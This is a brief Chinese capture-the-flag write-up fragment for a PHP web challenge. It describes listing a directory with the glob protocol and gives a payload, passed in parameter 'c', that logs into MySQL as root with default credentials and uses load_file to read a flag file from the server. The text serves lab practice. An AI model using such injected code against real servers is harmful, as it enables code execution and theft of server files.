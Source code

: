 ![image-20241130003249705](assets/image-20241130003249705.png)

这题依旧是用glob协议查目录，得到文件名为flag36d.txt

用上一题mysql的方法，成功查到flag

payload:

```
c=$conn = mysqli_connect("127.0.0.1", "root", "root", "ctftraining"); $sql = "select load_file('/flag36d.txt') as a"; $row = mysqli_query($conn, $sql); while($result=mysqli_fetch_array($row)){ echo $result['a']; } exit();
```

#### web77

![image-20241130004911319](assets/image-20241130004911319.png)
